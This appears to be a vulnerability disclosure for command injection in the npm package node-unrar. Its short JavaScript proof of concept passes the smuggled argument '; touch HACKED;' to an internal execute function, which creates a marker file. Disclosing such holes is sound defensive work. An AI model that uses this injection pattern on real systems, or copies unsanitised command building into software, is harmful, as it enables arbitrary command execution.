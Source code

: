 The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Create the following PoC file:
```js
// poc.js
var Unrar = require('node-unrar');
var rar = new Unrar('/path/to/file.rar');

rar._execute([], '; touch HACKED;', function(){});
```
2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:
```bash
npm i node-unrar # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
## References:
 - [GitHub Issue](https://github.com/scopsy/node-unrar/issues/10)
 - [Issue Permalink](https://github.com/scopsy/node-unrar/blob/master/lib/index.js#L24)